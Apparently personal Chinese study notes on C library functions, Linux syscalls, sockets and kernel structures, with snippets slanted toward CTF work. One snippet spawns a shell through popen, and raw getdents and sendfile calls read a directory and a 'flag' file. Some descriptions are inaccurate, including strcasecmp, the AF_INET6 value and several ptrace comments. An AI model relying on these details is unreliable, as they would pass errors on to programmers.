param 的取值可以为M_CHECK_ACTION、M_MMAP_MAX、M_MMAP_THRESHOLD、M_MXFAST（从glibc2.3起）、M_PERTURB（从glibc2.4起）、M_TOP_PAD、M_TRIM_THRESHOLD。

此处解释param取值为M_MXFAST的情况;

value是以 字节为单位的。

比如设置M_MMAP_THRESHOLD选项可以设置启用mmap申请malloc字节数阀值，设置-1是不启用mmap

这些选项可以通过mallopt()进行设置：

1．  M_MXFAST

M_MXFAST用于设置fast bins中保存的chunk的最大大小，默认值为64B，fast bins中保存的chunk在一段时间内不会被合并，分配小对象时可以首先查找fast bins，如果fast bins找到了所需大小的chunk，就直接返回该chunk，大大提高小对象的分配速度，但这个值设置得过大，会导致大量内存碎片，并且会导致ptmalloc缓存了大量空闲内存，去不能归还给操作系统，导致内存暴增。

M_MXFAST的最大值为80B，不能设置比80B更大的值，因为设置为更大的值并不能提高分配的速度。Fast bins是为需要分配许多小对象的程序设计的，比如需要分配许多小struct，小对象，小的string等等。

如果设置该选项为0，就会不使用fast bins。


**strtok**

头文件：#include <string.h>

定义函数：char * strtok(char *s, const char *delim);

函数说明：strtok()用来将字符串分割成一个个片段。参数s 指向欲分割的字符串，参数delim 则为分割字符串，当strtok()在参数s 的字符串中发现到参数delim 的分割字符时则会将该字符改为\0 字符。在第一次调用时，strtok()必需给予参数s 字符串，往后的调用则将参数s 设置成NULL。每次调用成功则返回下一个分割后的字符串指针。

返回值：返回下一个分割后的字符串指针，如果已无从分割则返回NULL。


**isprint**
C 标准库 - <ctype.h> C 标准库 - <ctype.h>

描述
C 库函数 int isprint(int c) 检查所传的字符是否是可打印的。可打印字符是非控制字符的字符。

声明
下面是 isprint() 函数的声明。

int isprint(int c);
参数
c -- 这是要检查的字符。
返回值
如果 c 是一个可打印的字符，则该函数返回非零值（true），否则返回 0（false）。


**strcasecmp** 

头文件：#include <string.h>

定义函数：int strcasecmp (const char *s1, const char *s2);

函数说明：strcasecmp()用来比较参数s1 和s2 字符串，比较时会自动忽略大小写的差异。

返回值：若参数s1 和s2 字符串相同则返回0。s1 长度大于s2 长度则返回大于0 的值，s1 长度若小于s2 长度则返回小于0 的值。


 **memcpy**
C 标准库 - <string.h> C 标准库 - <string.h>

描述
C 库函数 void *memcpy(void *str1, const void *str2, size_t n) 从存储区 str2 复制 n 个字节到存储区 str1。

声明
下面是 memcpy() 函数的声明。

void *memcpy(void *str1, const void *str2, size_t n)
参数
str1 -- 指向用于存储复制内容的目标数组，类型强制转换为 void* 指针。
str2 -- 指向要复制的数据源，类型强制转换为 void* 指针。
n -- 要被复制的字节数。
返回值
该函数返回一个指向目标存储区 str1 的指针。


**fork**

一个进程，包括代码、数据和分配给进程的资源。fork（）函数通过系统调用创建一个与原来进程几乎完全相同的进程，也就是两个进程可以做完全相同的事，但如果初始参数或者传入的变量不同，两个进程也可以做不同的事。
    一个进程调用fork（）函数后，系统先给新的进程分配资源，例如存储数据和代码的空间。然后把原来的进程的所有值都复制到新的新进程中，只有少数值与原来的进程的值不同。相当于克隆了一个自己。

```
#include <unistd.h>
#include <stdio.h>
 
int main ()
{
    pid_t fpid; //fpid表示fork函数返回的值
}
```

**可能有三种不同的返回值：**
  1）在父进程中，fork返回新创建子进程的进程ID；
  2）在子进程中，fork返回0；
  3）如果出现错误，fork返回一个负值；


**wait**

头文件：#include <sys/types.h>   #include <sys/wait.h>

定义函数：pid_t wait (int * status);

**函数说明：wait()会暂时停止目前进程的执行, 直到有信号来到或子进程结束. 如果在调用wait()时子进程已经结束, 则wait()会立即返回子进程结束状态值. 子进程的结束状态值会由参数status 返回, 而子进程的进程识别码也会一快返回. 如果不在意结束状态值, 则参数 status 可以设成NULL. 子进程的结束状态值请参考waitpid().**

返回值：如果执行成功则返回子进程识别码(PID), 如果有错误发生则返回-1. 失败原因存于errno 中.


 **lseek**

对于每个打开的文件，系统都会记录它的读写位置偏移量，我们也把这个读写位置偏移量称为读写偏移量，Linux 中可使用系统函数 lseek 来修改文件偏移量 ( 读写位置 )

```
#include <sys/types.h>
#include <unistd.h>
off_t lseek(int fd, off_t offset, int whence);
```

​        fd： 文件描述符。
​        offset： 偏移量，以字节为单位。
​        whence： 用于定义参数 offset 偏移量对应的参考值，该参数为下列其中一种（宏定义）：
​        SEEK_SET：读写偏移量将指向 offset 字节位置处（从文件头部开始算）；
​        SEEK_CUR：读写偏移量将指向当前位置偏移量 + offset 字节位置处， offset 可以为正、也可以为负，如果是正数表示往后偏移，如果是负数则表示往前偏移；
​        SEEK_END：读写偏移量将指向文件末尾 + offset 字节位置处，同样 offset 可以为正、也可以为负，如果是正数表示往后偏移、如果是负数则表示往前偏移。
​        返回值：成功将返回从文件头部开始算起的位置偏移量（字节为单位），也就是当前的读写位置；发生错误将返回-1，并设置errno值。


**popen()函数**

popen()可以执行shell命令，并读取此命令的返回值；

```c
#include <stdio.h>

int main(int argc, char **argv){
	popen("sh", "r");
	return 0;
}
```

（1）popen()会调用fork()产生子进程，然后从子进程中调用/bin/sh -c来执行参数command的指令。
（2）参数type可使用“r”代表读取，“w”代表写入。依照此type值，popen()会建立管道连到子进程的标准输出设备或标准输入设备，然后返回一个文件指针。随后进程便可利用此文件指针来读取子进程的输出设备或是写入到子进程的标准输入设备中。
（3）此外，所有使用文件指针(FILE*)操作的函数也都可以使用，除了fclose()以外。
（4）如果 type 为 r，那么调用进程读进 command 的标准输出。
如果 type 为 w，那么调用进程写到 command 的标准输入。
返回值：若成功则返回文件指针，否则返回NULL，错误原因存于errno中。


**getedents()函数**

读取文件夹中的文件，类似于ls

```c
#include<stdio.h>
#include<sys/syscall.h>
#include<unistd.h>
#include <dirent.h>
#include <fcntl.h>
int main(){
    char buf[0x100];
    int fd = open("zore",O_RDONLY);
    syscall(SYS_getdents,fd,buf,0x100);
    write(1,buf,0x100);
}
```


**sendfile()函数**

sendfile函数在两个文件描述符之间传递数据（完全在内核中操作），从而避免了内核缓冲区和用户缓冲区之间的数据拷贝，效率很高，被称为零拷贝。函数定义为：

```
#include<sys/sendfile.h>
ssize_t senfile(int out_fd,int in_fd,off_t* offset,size_t count);
```


in_fd参数是待读出内容的文件描述符，out_fd参数是待写入内容的文件描述符。offset参数指定从读入文件流的哪个位置开始读，如果为空，则使用读入文件流默认的起始位置。count参数指定文件描述符in_fd和out_fd之间传输的字节数。

in_fd必须是一个支持类似mmap函数的文件描述符，即它必须指向真实的文件，不能是socket和管道，而out_fd必须是一个socket
首先我们来看看传统的read/write方式进行socket的传输。
当需要对一个文件进行传输的时候，具体流程细节如下：

1：调用read函数，文件数据copy到内核缓冲区
2：read函数返回，文件数据从内核缓冲区copy到用户缓冲区
3：write函数调用，将文件数据从用户缓冲区copy到内核与socket相关的缓冲区
4：数据从socket缓冲区copy到相关协议引擎。
在这个过程中发生了四次copy操作。

硬盘->内核->用户->socket缓冲区（内核）->协议引擎。

而sendfile的工作原理：

1、系统调用 sendfile() 通过 DMA 把硬盘数据拷贝到 kernel buffer，然后数据被 kernel 直接拷贝到另外一个与 socket 相关的 kernel buffer。这里没有 用户态和核心态 之间的切换，在内核中直接完成了从一个 buffer 到另一个 buffer 的拷贝。
2、DMA 把数据从 kernel buffer 直接拷贝给协议栈，没有切换，也不需要数据从用户态和核心态，因为数据就在 kernel 里。


类似于cat

```c
#include<stdio.h>
#include <fcntl.h>
#include<sys/sendfile.h>
int main(){
    char buf[0x100];
    int fd = open("flag",O_RDONLY);
    sendfile(1,fd,0,0x100);
}
```


**isspace函数**

```
#include<ctype.h>
int isspace(int c);
```

检查所传的字符是否是空白字符

如果 c 是一个空白字符，则该函数返回非零值（true），否则返回 0（false）。


标准的空白字符包括：

```
' '     (0x20)    space (SPC) 空格符
'\t'    (0x09)    horizontal tab (TAB) 水平制表符    
'\n'    (0x0a)    newline (LF) 换行符
'\v'    (0x0b)    vertical tab (VT) 垂直制表符
'\f'    (0x0c)    feed (FF) 换页符
'\r'    (0x0d)    carriage return (CR) 回车符
```


**dup函数**

```
#include <unistd.h>
int dup(int oldfd);
int dup2(int oldfd, int newfd);
```

复制一个文件描述符

返回值：
	成功：dup函数返回当前系统可用的最小整数值。
		 dup2函数返回第一个不小于newfd的整数值，分两种情况：

		 	1. 如果newfd已经打开，则先将其关闭，再复制文件描述符；
		 	2. 如果newfd等于oldfd，则dup2函数返回newfd，而不关闭它。
	失败：dup和dup2函数均返回-1，并设置errno。


**pipe函数**

pipe函数可用于创建一个管道，以实现进程间通信。

```text
#include<unistd.h>

/* fd,经参数fd返回的两个文件描述符
 * fd[0]为读而打开，fd[1]为写而打开
 * fd[1]的输出是fd[0]的输入
 * return 若成功，返回0；若出错，返回-1并设置errno
 */
int pipe(int fd[2]);
```

pipe函数的参数是一个包含两个int类型整数的数组指针。该函数成功时返回0，并将一对打开的文件描述符值填入其参数指向的数组。如果失败，则返回-1并设置errno。

通过pipe函数创建的这两个文件描述符fd[0]和fd[1]分别构成管道的两端，往fd[1]写入的数据可以从fd[0]读出，并且fd[1]一端只能进行写操作，fd[0]一端只能进行读操作，不能反过来使用。要实现双向数据传输，可以使用两个管道。


**ftell() 函数**

```
long int ftell(FILE *stream)
```

参数

- **stream** -- 这是指向 FILE 对象的指针，该 FILE 对象标识了流。

返回值

该函数返回位置标识符的当前值。如果发生错误，则返回 -1L，全局变量 errno 被设置为一个正值。


**rewind**

声明

下面是 rewind() 函数的声明。

```
void rewind(FILE *stream)
```

参数

- **stream** -- 这是指向 FILE 对象的指针，该 FILE 对象标识了流。

返回值

设置文件位置为给定流 **stream** 的文件的开头，该函数不返回任何值。


pthread_create() 函数

用来创建线程，它声明在`<pthread.h>`头文件中，语法格式如下：

```
int pthread_create(pthread_t *thread,
                   const pthread_attr_t *attr,
                   void *(*start_routine) (void *),
                   void *arg);
```

各个参数的含义是：

1) pthread_t *thread：传递一个 pthread_t 类型的指针变量，也可以直接传递某个 pthread_t 类型变量的地址。pthread_t 是一种用于表示线程的数据类型，每一个 pthread_t 类型的变量都可以表示一个线程。

2) const pthread_attr_t *attr：用于手动设置新建线程的属性，例如线程的调用策略、线程所能使用的栈内存的大小等。大部分场景中，我们都不需要手动修改线程的属性，将 attr 参数赋值为 NULL，pthread_create() 函数会采用系统默认的属性值创建线程。
3) `void *(*start_routine) (void *)`：以函数指针的方式指明新建线程需要执行的函数，该函数的参数最多有 1 个（可以省略不写），形参和返回值的类型都必须为 `void*` 类型。void* 类型又称空指针类型，表明指针所指数据的类型是未知的。使用此类型指针时，我们通常需要先对其进行强制类型转换，然后才能正常访问指针指向的数据
4) void *arg：指定传递给 start_routine 函数的实参，当不需要传递任何数据时，将 arg 赋值为 NULL 即可。


```
-lpthread
```


**ptrace**

```
long ptrace(enum __ptrace_request request, pid_t pid, void *addr,void *data);
enum __ptrace_request request：参数执行的行为
pid_t pid: ptrace要跟踪的进程号。
void *addr: 存放数据的地址。
void *data: 存放读取出的或者要写入的数据。
```


```
enum __ptrace_request
{
    PTRACE_TRACEME = 0,        //被调试进程调用
    PTRACE_PEEKTEXT = 1， //从内存addr处读取一个字节
    PTRACE_PEEKDATA = 2,    //查看内存addr处的一个字节
    PTRACE_PEEKUSER = 3,    //查看struct user 结构体的值
    PTRACE_POKETEXT = 4， //查看内存addr处一个字大小的内存（4字节）
    PTRACE_POKEDATA = 5,    //修改内存addr处一个字大小的内存（4字节）
    PTRACE_POKEUSER = 6,    //修改struct user结构体的值
    PTRACE_CONT = 7,        //被调试进程pid继续
    PTRACE_SINGLESTEP = 9,    //被调试进程pid执行一条汇编指令
    PTRACE_GETREGS = 12,    //获取寄存器(struct user_regs_struct)到内存data中
    PTRACE_SETREGS = 13,    //设置内存data上的数据为寄存器(struct user_regs_struct)
    PTRACE_ATTACH = 16,        //附加进程pid
    PTRACE_DETACH = 17,        //解除附加进程pid
    PTRACE_SYSCALL = 24,    //让被调试进程pid在系统调用入口或出口停止
};
 
long int ptrace (enum __ptrace_request __request, ...)
```

struct user_regs_struct这个结构体定义在<sys/user.h>中，这个结构体保存了一组寄存器的信息

```
struct user_regs_struct
{
  __extension__ unsigned long long int r15;
  __extension__ unsigned long long int r14;
  __extension__ unsigned long long int r13;
  __extension__ unsigned long long int r12;
  __extension__ unsigned long long int rbp;
  __extension__ unsigned long long int rbx;
  __extension__ unsigned long long int r11;
  __extension__ unsigned long long int r10;
  __extension__ unsigned long long int r9;
  __extension__ unsigned long long int r8;
  __extension__ unsigned long long int rax;
  __extension__ unsigned long long int rcx;
  __extension__ unsigned long long int rdx;
  __extension__ unsigned long long int rsi;
  __extension__ unsigned long long int rdi;
  __extension__ unsigned long long int orig_rax;
  __extension__ unsigned long long int rip;
  __extension__ unsigned long long int cs;
  __extension__ unsigned long long int eflags;
  __extension__ unsigned long long int rsp;
  __extension__ unsigned long long int ss;
  __extension__ unsigned long long int fs_base;
  __extension__ unsigned long long int gs_base;
  __extension__ unsigned long long int ds;
  __extension__ unsigned long long int es;
  __extension__ unsigned long long int fs;
  __extension__ unsigned long long int gs;
};
```

64位下寄存器的偏移，可以用这个偏移查看相应内存中寄存器的值

```
##/arch/x86/include/uapi/asm/ptrace-abi.h
#define R15 0
#define R14 8
#define R13 16
#define R12 24
#define RBP 32
#define RBX 40
/* These regs are callee-clobbered. Always saved on kernel entry. */
#define R11 48
#define R10 56
#define R9 64
#define R8 72
#define RAX 80
#define RCX 88
#define RDX 96
#define RSI 104
#define RDI 112
/*
 * On syscall entry, this is syscall#. On CPU exception, this is error code.
 * On hw interrupt, it's IRQ number:
 */
#define ORIG_RAX 120
/* Return frame for iretq */
#define RIP 128
#define CS 136
#define EFLAGS 144
#define RSP 152
#define SS 160
#endif /* __ASSEMBLY__ */
 
/* top of stack page */
#define FRAME_SIZE 168
```


##### 网络


**getenv()**
C 标准库 - <stdlib.h> 

描述
C 库函数 **char *getenv(const char *name)** 搜索 name 所指向的环境字符串，并返回相关的值给字符串。

声明
下面是 getenv() 函数的声明。

char *getenv(const char *name)
参数
name -- 包含被请求变量名称的 C 字符串。
返回值
该函数返回一个以 null 结尾的字符串，该字符串为被请求环境变量的值。如果该环境变量不存在，则返回 NULL。


**getaddrinfo()**

getaddrinfo()，粗略的理解为将host_name/service_name转化为host_ip/service_port。

函数将主机名、主机地址、服务名和端口的字符串表示转换成套接字地址结构体。它是已弃用的getgostbyname和getservbyname函数的新的替代品。和以前的那些函数不同，这个函数是可以重入的，适合于任何协议，函数把协议相关性完全隐藏在这个库函数内部。应用程序只要处理由getaddrinfo函数填写的套接口地址结构。

**函数原型：**

```c
int getaddrinfo( const char *node, 
                 const char *service,
                 const struct addrinfo *hints,
                 struct addrinfo **res);
```

1. **nodename**:节点名可以是主机名，也可以是数字地址。（IPV4的10进点分，或是IPV6的16进制）；
2. **servname**:包含十进制数的端口号或服务名如（ftp,http）；
3. **hints**:是一个空指针或指向一个addrinfo结构的指针，由调用者填写关于它所想返回的信息类型的线索；
4. **res:**存放返回addrinfo结构链表的指针；

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netdb.h>
 
void freeaddrinfo(struct addrinfo *res);
const char *gai_strerror(int errcode);
 
 struct addrinfo {
          int              ai_flags;
          int              ai_family;
          int              ai_socktype;
          int              ai_protocol;
          socklen_t        ai_addrlen;
          struct sockaddr  *ai_addr;
          char            *ai_canonname;
          struct addrinfo   *ai_next;
};


struct sockaddr
{
	unsigned short sa_family;     // address family, AF_xxx  2为ipv4,10为ipv6 
	char sa_data[14];            // 14 bytes of protocol address 大端序的ip地址
};

```


在getaddrinfo函数之前通常需要对以下6个参数进行以下设置：nodename、servname、hints的ai_flags、ai_family、ai_socktype、ai_protocol。在6项参数中，对函数影响最大的是nodename，sername和hints.ai_flag。而ai_family只是有地址为v4地址或v6地址的区别。而ai_protocol一般是为0不作改动。

其中ai_flags、ai_family、ai_socktype说明如下：

| 参数        | 取值           | 值   | 说明                                      |
| ----------- | -------------- | ---- | ----------------------------------------- |
| ai_family   | AF_INET        | 2    | IPv4                                      |
|             | AF_INET6       | 23   | IPV6                                      |
|             | AF_UNSPEC      | 0    | 协议无关                                  |
| —-          | —-             | —    | —-                                        |
| ai_protocol | IPPROTO_IP     | 0    | IP协议                                    |
|             | IPPROTO_IPv4   | 4    | IPv4                                      |
|             | IPPROTO_IPv6   | 41   | IPv6                                      |
|             | IPPROTO_UDP    | 17   | UDP                                       |
|             | IPPROTO_TCP    | 6    | TCP                                       |
| —-          | —-             | —    | —                                         |
| ai_socktype | SOCK_STREAM    | 1    | 流                                        |
|             | SOCK_DGRAM     | 2    | 数据报                                    |
| —-          | —-             | —    | —                                         |
| ai_flags    | AI_PASSIVE     | 1    | 被动的，用于bind， 通常用于 server socket |
|             | AI_CANONNAME   | 2    |                                           |
|             | AI_NUMERICHOST | 4    | 地址为数字串                              |

对于ai_flags值的说明：

| AI_PASSIVE | AI_CANONNAME | AI_NUMERICHOST |
| ---------- | ------------ | -------------- |
| 0/1        | 0/1          | 0/1            |

如上表所示，ai_flagsde值范围为0~7，取决于程序如何设置3个标志位，比如设置ai_flags为 “AI_PASSIVE|AI_CANONNAME”，ai_flags值就为3。

三个参数的含义分别为：

(1)**AI_PASSIVE** 当此标志置位时，表示调用者将在bind()函数调用中使用返回的地址结构。当此标志不置位时，表示将在connect()函数调用中使用。当节点名为NULL，且此标志置位，则返回的地址将是通配地址。如果节点名为NULL，且此标志不置位，则返回的地址将是回环地址。

(2)**AI_CANNONAME**当此标志置位时，在函数所返回的第一个addrinfo结构中的ai_cannoname成员中，应该包含一个以空字符结尾的字符串，字符串的内容是节点名的正规名。

(3)**AI_NUMERICHOST**当此标志置位时，此标志表示调用中的节点名必须是一个数字地址字符串。

给定host和service（套接字地址的两个组成部分），getaddrinfo返回result, result是一个指向addrinfo结构的链表，其中每个结构体指向一个对应于host和service的套接字地址结构。


**freeaddrinfo**

由getaddrinfo返回的存储空间，包括addrinfo结构、ai_addr结构和ai_canonname字符串，都是用malloc动态获取的。这些空间可调用 freeaddrinfo释放。其原型如下：

```c
#include <netdb.h>
void freeaddrinfo (struct addrinfo*ai);
```


**socket()函数**
`int socket(int domain, int type, int protocol);`
socket函数对应于普通文件的打开操作。普通文件的打开操作返回一个文件描述字，而socket()用于创建一个socket描述符（socket descriptor），它唯一标识一个socket。这个socket描述字跟文件描述字一样，后续的操作都有用到它，把它作为参数，通过它来进行一些读写操作。

正如可以给fopen的传入不同参数值，以打开不同的文件。创建socket的时候，也可以指定不同的参数创建不同的socket描述符，socket函数的三个参数分别为：

- domain：即协议域，又称为协议族（family）。常用的协议族有，AF_INET（ipv4）、AF_INET6、AF_LOCAL（或称AF_UNIX，Unix域socket）、AF_ROUTE等等。协议族决定了socket的地址类型，在通信中必须采用对应的地址，如AF_INET决定了要用ipv4地址（32位的）与端口号（16位的）的组合、AF_UNIX决定了要用一个绝对路径名作为地址。
- type：指定socket类型。常用的socket类型有，SOCK_STREAM（TCP）、SOCK_DGRAM（UDP）、SOCK_RAW、SOCK_PACKET、SOCK_SEQPACKET等等。
- protocol：故名思意，就是指定协议。常用的协议有，IPPROTO_TCP、IPPTOTO_UDP、IPPROTO_SCTP、IPPROTO_TIPC等，它们分别对应TCP传输协议、UDP传输协议、STCP传输协议、TIPC传输协议）。


**setsockopt**

```c
#include <sys/types.h >
#include <sys/socket.h>
int setsockopt(int sockfd, int level, int optname, const void *optval, socklen_t optlen);
```

- sockfd：标识一个套接口的描述字
- level：选项定义的层次；支持SOL_SOCKET、IPPROTO_TCP、IPPROTO_IP和IPPROTO_IPV6
- optname：需设置的选项，而有部分选项需在listen/connect调用前设置才有效，这部分选项如下：SO_DEBUG、SO_DONTROUTE、SO_KEEPALIVE、SO_LINGER、SO_OOBINLINE、SO_RCVBUF、SO_RCVLOWAT、SO_SNDBUF、SO_SNDLOWAT、TCP_MAXSEG、TCP_NODELAY
- optval：指针，指向存放选项值的缓冲区
- optlen：optval缓冲区长度

 使用场景

(1)如果在已经处于 ESTABLISHED状态下的socket(一般由端口号和标志符区分）调用close(socket)（一般不会立即关闭而经历TIME_WAIT的过程）后想继续重用该socket：

```text
int reuse=1;
setsockopt(s,SOL_SOCKET ,SO_REUSEADDR,(const char*)& reuse,sizeof(int));
```

**注意：必须在调用bind函数之前设置SO_REUSEADDR选项。**

(2)如果要已经处于连接状态的soket在调用close(socket)后强制关闭，不经历TIME_WAIT的过程：

```text
int reuse=0;
setsockopt(s,SOL_SOCKET ,SO_REUSEADDR,(const char*)& reuse,sizeof(int));
```


**bind()函数**
bind()函数把一个地址族中的特定地址赋给socket。例如对应AF_INET、AF_INET6就是把一个ipv4或ipv6地址和端口号组合赋给socket。

`int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);`
函数的三个参数分别为：

- sockfd：即socket描述字，它是通过socket()函数创建了，唯一标识一个socket。bind()函数就是将给这个描述字绑定一个名字。
- addr：一个const struct sockaddr *指针，指向要绑定给sockfd的协议地址。这个地址结构根据地址创建socket时的地址协议族的不同而不同
- addrlen：对应的是地址的长度。

通常服务器在启动的时候都会绑定一个众所周知的地址（如ip地址+端口号），用于提供服务，客户就可以通过它来接连服务器；而客户端就不用指定，有系统自动分配一个端口号和自身的ip地址组合。这就是为什么通常服务器端在listen之前会调用bind()，而客户端就不会调用，而是在connect()时由系统随机生成一个。


**getsockname**


	#include <sys/socket.h> 
	int getsockname(int s, struct sockaddr *name, socklen_t *namelen);


描述

getsockname() 返回当前名称指定的套接字。namelen 参数应被初始化，以指示的空间指向量的名字。返回时，包含名称的实际大小（以字节为单位）.


**listen()、connect()函数**

如果作为一个服务器，在调用socket()、bind()之后就会调用listen()来监听这个socket，如果客户端这时调用connect()发出连接请求，服务器端就会接收到这个请求。

```c
int listen(int sockfd, int backlog);c
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```

listen函数的第一个参数即为要监听的socket描述字，第二个参数为相应socket可以排队的最大连接个数。socket()函数创建的socket默认是一个主动类型的，listen函数将socket变为被动类型的，等待客户的连接请求。

connect函数的第一个参数即为客户端的socket描述字，第二参数为服务器的socket地址，第三个参数为socket地址的长度。客户端通过调用connect函数来建立与TCP服务器的连接。


**accept()函数**

当socket模式设置为阻塞，accept函数的功能是阻塞等待client发起三次握手，当3次握手完成的时候，accept解除阻塞，并从全连接队列中取出一个socket，就可以对这个socket连接进行读写操作。

TCP服务器端依次调用socket()、bind()、listen()之后，就会监听指定的socket地址了。TCP客户端依次调用socket()、connect()之后就想TCP服务器发送了一个连接请求。TCP服务器监听到这个请求之后，就会调用accept()函数取接收请求，这样连接就建立好了。之后就可以开始网络I/O操作了，即类同于普通文件的读写I/O操作。

```text
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```

accept函数的第一个参数为服务器的socket描述字，第二个参数为指向struct sockaddr *的指针，用于返回客户端的协议地址，第三个参数为协议地址的长度。如果accept成功，那么其返回值是由内核自动生成的一个全新的描述字，代表与返回客户的TCP连接。

注意：accept的第一个参数为服务器的socket描述字，是服务器开始调用socket()函数生成的，称为监听socket描述字；而accept函数返回的是已连接的socket描述字。一个服务器通常通常仅仅只创建一个监听socket描述字，它在该服务器的生命周期内一直存在。内核为每个由服务器进程接受的客户连接创建了一个已连接socket描述字，当服务器完成了对某个客户的服务，相应的已连接socket描述字就被关闭。


**recv()函数、send()函数**

```c
#include <sys/socket.h>
ssize_t recv(int sockfd, void *buff, size_t nbytes, int flags);
ssize_t send(int sockfd, const void *buff, size_t nbytes, int flags);
```

send和recv的前3个参数等同于read和write；

flags参数值为0或：

| flags         | 说明               | recv | send |
| ------------- | ------------------ | ---- | ---- |
| MSG_DONTROUTE | 绕过路由表查找     |      | •    |
| MSG_DONTWAIT  | 仅本操作非阻塞     | •    | •    |
| MSG_OOB       | 发送或接收带外数据 | •    | •    |
| MSG_PEEK      | 窥看外来消息       | •    |      |
| MSG_WAITALL   | 等待所有数据       | •    |      |


**inet_pton()函数**

```c
#include <arpe/inet.h>
int inet_pton(int family, const char *strptr, void *addrptr);     //将点分十进制的ip地址转化为用于网络传输的数值格式
        返回值：若成功则为1，若输入不是有效的表达式则为0，若出错则为-1

const char * inet_ntop(int family, const void *addrptr, char *strptr, size_t len);     //将数值格式转化为点分十进制的ip地址格式
        返回值：若成功则为指向结构的指针，若出错则为NULL
```

（1）这两个函数的family参数既可以是AF_INET（ipv4）也可以是AF_INET6（ipv6）。如果，以不被支持的地址族作为family参数，这两个函数都返回一个错误，并将errno置为EAFNOSUPPORT.
（2）第一个函数尝试转换由strptr指针所指向的字符串，并通过addrptr指针存放二进制结果，若成功则返回值为1，否则如果所指定的family而言输入字符串不是有效的表达式格式，那么返回值为0.

（3）inet_ntop进行相反的转换，从数值格式（addrptr）转换到表达式（strptr)。inet_ntop函数的strptr参数不可以是一个空指针。调用者必须为目标存储单元分配内存并指定其大小，调用成功时，这个指针就是该函数的返回值。len参数是目标存储单元的大小，以免该函数溢出其调用者的缓冲区。如果len太小，不足以容纳表达式结果，那么返回一个空指针，并置为errno为ENOSPC。


#include <strings.h>
函数原型：  void bzero(void *s, size_t n);
功能：
           清空数组
参数：
            s：清空的数组
            n：数组的大小


**htonl**
在网络上传输数据时，由于数据传输的两端可能对应不同的硬件平台，采用的存储字节顺序也可能不一致，因此 TCP/IP 协议规定了在网络上必须采用网络字节顺序(也就是大端模式) 。
通过对大小端的存储原理分析可发现，对于 char 型数据，由于其只占一个字节，所以不存在这个问题，这也是一般情况下把数据缓冲区定义成 char 类型 的原因之一。对于 IP 地址、端口号等非 char 型数据，必须在数据发送到网络上之前将其转换成大端模式，在接收到数据之后再将其转换成符合接收端主机的存储模式。

Linux 系统为大小端模式的转换提供了 4 个函数，输入 man byteorder 命令可得函数原型：


```
#include <arpa/inet.h>

uint32_t htonl(uint32_t hostlong);

uint16_t htons(uint16_t hostshort);

uint32_t ntohl(uint32_t netlong);

uint16_t ntohs(uint16_t netshort);
```


htonl 表示 host to network long ，用于将主机 unsigned int 型数据转换成网络字节顺序；
htons 表示 host to network short ，用于将主机 unsigned short 型数据转换成网络字节顺序；
ntohl、ntohs 的功能分别与 htonl、htons 相反。


close() / closesocket() 用来关闭套接字，将套接字描述符（或句柄）从内存清除，之后再也不能使用该套接字，与C语言中的 fclose() 类似。应用程序关闭套接字后，与该套接字相关的连接和缓存也失去了意义，TCP协议会自动触发关闭连接的操作。

shutdown() 用来关闭连接，而不是套接字，不管调用多少次 shutdown()，套接字依然存在，直到调用 close() / closesocket() 将套接字从内存清除。


##### 内核


```c
#include <linux/uaccess.h>			//  copy_to_user() & copy_from_user

copy_from_user(rwbuf, buf, count);
//从用户空间复制到内核空间

copy_to_user( buf, rwbuf, count);
//从内核空间复制到用户空间
```

参数：

rwbuf：这个是（内核空间中的）模块文件中的数组
buf：这个是（用户空间中）调用时传入的参数
count：数组长度

语义是：如果成功返回0；如果失败，返回有多少字节未完成copy。


linux系统 file结构体

```c
struct file {
	union {
		struct llist_node	fu_llist;
		struct rcu_head 	fu_rcuhead;
	} f_u;
	struct path		f_path;
	struct inode		*f_inode;	/* cached value */
	const struct file_operations	*f_op;

	/*
	 * Protects f_ep, f_flags.
	 * Must not be taken from IRQ context.
	 */
	spinlock_t		f_lock;
	enum rw_hint		f_write_hint;
	atomic_long_t		f_count;
	unsigned int 		f_flags;
	fmode_t			f_mode;
	struct mutex		f_pos_lock;
	loff_t			f_pos;
	struct fown_struct	f_owner;
	const struct cred	*f_cred;
	struct file_ra_state	f_ra;

	u64			f_version;
#ifdef CONFIG_SECURITY
	void			*f_security;
#endif
	/* needed for tty driver, and maybe others */
	void			*private_data;

#ifdef CONFIG_EPOLL
	/* Used by fs/eventpoll.c to link all the hooks to this file */
	struct hlist_head	*f_ep;
#endif /* #ifdef CONFIG_EPOLL */
	struct address_space	*f_mapping;
	errseq_t		f_wb_err;
	errseq_t		f_sb_err; /* for syncfs */
} __randomize_layout
  __attribute__((aligned(4)));	/* lest something weird decides that 2 is OK */

```


结构体file_operations在头文件 linux/fs.h中定义，用来存储驱动内核模块提供的对设备进行各种操作的函数的指针。该结构体的每个域都对应着驱动内核模块用来处理某个被请求的的函数的地址。

```c
struct file_operations {
	struct module *owner;
	loff_t (*llseek) (struct file *, loff_t, int);
	ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
	ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
	ssize_t (*read_iter) (struct kiocb *, struct iov_iter *);
	ssize_t (*write_iter) (struct kiocb *, struct iov_iter *);
	int (*iopoll)(struct kiocb *kiocb, bool spin);
	int (*iterate) (struct file *, struct dir_context *);
	int (*iterate_shared) (struct file *, struct dir_context *);
	__poll_t (*poll) (struct file *, struct poll_table_struct *);
	long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
	long (*compat_ioctl) (struct file *, unsigned int, unsigned long);
	int (*mmap) (struct file *, struct vm_area_struct *);
	unsigned long mmap_supported_flags;
	int (*open) (struct inode *, struct file *);
	int (*flush) (struct file *, fl_owner_t id);
	int (*release) (struct inode *, struct file *);
	int (*fsync) (struct file *, loff_t, loff_t, int datasync);
	int (*fasync) (int, struct file *, int);
	int (*lock) (struct file *, int, struct file_lock *);
	ssize_t (*sendpage) (struct file *, struct page *, int, size_t, loff_t *, int);
	unsigned long (*get_unmapped_area)(struct file *, unsigned long, unsigned long, unsigned long, unsigned long);
	int (*check_flags)(int);
	int (*flock) (struct file *, int, struct file_lock *);
	ssize_t (*splice_write)(struct pipe_inode_info *, struct file *, loff_t *, size_t, unsigned int);
	ssize_t (*splice_read)(struct file *, loff_t *, struct pipe_inode_info *, size_t, unsigned int);
	int (*setlease)(struct file *, long, struct file_lock **, void **);
	long (*fallocate)(struct file *file, int mode, loff_t offset,
			  loff_t len);
	void (*show_fdinfo)(struct seq_file *m, struct file *f);
